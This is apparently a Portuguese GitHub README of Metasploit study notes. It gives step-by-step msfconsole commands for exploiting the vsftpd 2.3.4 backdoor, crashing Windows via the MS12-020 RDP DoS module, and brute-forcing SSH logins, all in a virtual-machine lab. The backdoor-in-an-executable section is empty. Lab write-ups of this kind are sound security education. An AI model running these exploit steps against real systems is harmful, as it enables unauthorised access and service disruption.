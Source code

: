# FRAMEWORK METASPLOIT

**Metasploit** é uma plataforma de segurança cibernética usada principalmente para realizar testes de penetração e avaliações de segurança em sistemas de computadores e redes.  
Ele fornece uma coleção de ferramentas e exploits que permitem que profissionais de segurança identifiquem, explorem e documentem vulnerabilidades em sistemas-alvo.  
Um **exploit** é um programa, código ou técnica usado para aproveitar uma vulnerabilidade ou falha de segurança em um sistema, software ou rede.  
O objetivo principal de um exploit é explorar uma falha para realizar ataque.  

**Payload** é um código ou programa malicioso que é entregue e executado após a exploração de uma vulnerabilidade em um sistema  
- *single* = payload completo que realiza todas as acções (conexão inicial e ataque), sem precisar de etapas adicionais
- *stager* = payload pequeno que estabelece apenas a conexão inicial entre o atacante e o alvo
- *stage* = o payload que contém as ações do atacante, e pode ser carregado após o stager estabelecer a comunicação.  
**Meterpreter**, é um payload que funciona por injeção dll, é uma ferramenta “pós invasão”, para testes de penetração e ataques éticos.

  
Para realização dos estudos, utilizei o **mfsconsole**
- Interface de linha de comando do Metasploit
- Permite a execução de exploit, payloads, post-exploration e muito mais

Abaixo, todos os casos de estudo:
- [EXPLORANDO FALHAS NO FTP](#explorando-falhas-no-ftp)
- [ATAQUES DOS NO WINDOWS RDP](#ataques-dos-no-windows-rdp)
- [EXPLORANDO FALHAS NO SSH COM FORCA BRUTA](#explorando-falhas-no-ssh-com-forca-bruta)
- [ADICIONANDO BACKDOOR EM UM EXECUTÁVEL](#adicionando-backdoor-em-um-executavel)

---

## EXPLORANDO FALHAS NO FTP
Neste exemplo, iremos explorar uma falha na versão 2.3.4 do vsftpd que introduz uma backdoor no servidor FTP.  
Iremos utilizar o Metasploitable como alvo, e o Kali como origem do ataque.  
Estou utilizando os dois sistemas em máquinas virtuais.  

Primeiramente criei um arquivo *teste.txt* no Metasploitable para que possamos manipulá-lo após a invasão.  
No Kali, abriremos o console, entraremos no modo `sudo su` seguiremos os seguintes passos:  
- `msfconsole` = abre o console do metasploit  
- `search vsftpd`  
- `info exploit/unix/ftp/vsftpd_234_hackdoor`  
- `use exploit/unix/ftp/vsftpd_234_hackdoor` = selecionamos o exploit para uso  
- `show options` = mostra os requerimentos que precisamos definir no exploit  
- `set rhosts <ip do metaspoitable>` = ip do nosso alvo  
- `show payloads` = lista os payloads disponíveis  
- `set payload payload/cmd/unix/interact` = este payload permite que o atacante tenha um controle direto sobre a máquina invadida após o exploit  
- `show options` = para ver se os requerimentos estão definidos  
- `exploit`   
- `ls` = irá mostrar o diretório que estamos.  
- `ip addr` = vai mostra o ip da maquina que invadimos.  
E assim, estamos com acesso ao alvo, via terminal.  

---

## ATAQUES DOS NO WINDOWS RDP
**RDP(Remote Desktop Protocol)** é um protocolo desenvolvido pela Microsoft que permite que um usuário se conecte remotamente a outro computador ou servidor por meio de uma interface gráfica.  
Ele utiliza a porta 3389, TCP ou UDP.  
Este ataque DOS pode causar a interrupção de um serviço ou o travamento de um servidor Windows ao explorar o limite de IDs de canal no RDP.  
#### Simulação de ataque: causar tela azul no Windows.
Liguiei as máquinas virtuais do Windows XP e do Kali Linux.  
No Windows XP precisamos ativar o "remote desktop", através do Painle de Controle.
Pegar o ip do Windows 7 no CMD.  
Acessar o `mfsconsole` no Kali, a partir do modo `sudo su`.  
`search rdp` = procuramos os modulos disponíveis.  
Usaremos o módulo `use auxiliary/dos/windows/rdp/ms12_020_maxchannelids`.  
`show options` = pra verificar os requerimentos a serem definidos no módulo
`set rhosts 192.168.56.105` = definimos o IP do alvo.  
`run`  
Ataque bem sucedido, tela azul no Windows.  
![unnamed](https://github.com/user-attachments/assets/c94aeeca-346c-402c-a9a8-69665fd2e1dc)

---

## EXPLORANDO FALHAS NO SSH COM FROCA BRUTA
**SSH (Secure Shell)** é um protocolo de rede criptografado que permite a comunicação segura entre dois computadores.  
Por padrão, o servidor SSH escuta a porta 22.  
Para este ataque, utilizaremos o *Metasploitable* como alvo.  
Utilizaremos a técnica de *“Força Bruta”* para conseguir acesso ao servidor.  
Primeiramente, iniciamos as VM’s do *Kali* e do *Metasploitable*.  
No Kali, abrimos o console e seguimos os passos:  
- `msfconsole`
- `search ssh_login` = procuramos o módulo a ser utilizado
- `use auxiliary/scanner/ssh/ssh_login` = usaremos este módulo
- `info` = para verificar os requerimentos
- Neste caso, precisaremos definir, além do IP do alvo, dois arquivos que contenham informações de usuários e senhas.
- As informações contidas nestes arquivos, serão utilizadas para o ataque de força bruta.
- Sabemos que usuário e senha do Metasploitable são *“msfadmin”*.
- Então criei dois arquivos no Kali: *user.txt* e *password.txt*.
- Em ambos, devemos colocar uma “opção” por linha.
- Em ambos arquivos, pode-se colocar qualquer nomes para teste, mas devem conter também a informação correta em qualquer uma das linhas.
- Agora, definimos as informações necessárias:  
`set rhosts 192.168.56.101` = este é o IP do Mestasploitable  
`set USER_FILE /home/kali/user.txt` = arquivo com possíveis usuários  
`set PASS_FILE /home/kali/password.txt` = arquivo com possíveis senhas  
`exploit`  


Agora que o ataque foi bem sucedido, vamos confirmar as sessões abertas.  
`sessions` = vemos que existe uma sessão aberta  
`sessions 1` = acessamos a sessão  
Agora já estamos dentro do alvo, e digitamos o comando `ip addr` pra confirmar.  
Neste caso, o IP já é o do Metasploitable.  
![unnamed](https://github.com/user-attachments/assets/e1266107-6adc-4bc9-b5ff-72492951eaa0)


---

## ADICIONANDO BACKDOOR EM UM EXECUTÁVEL
...
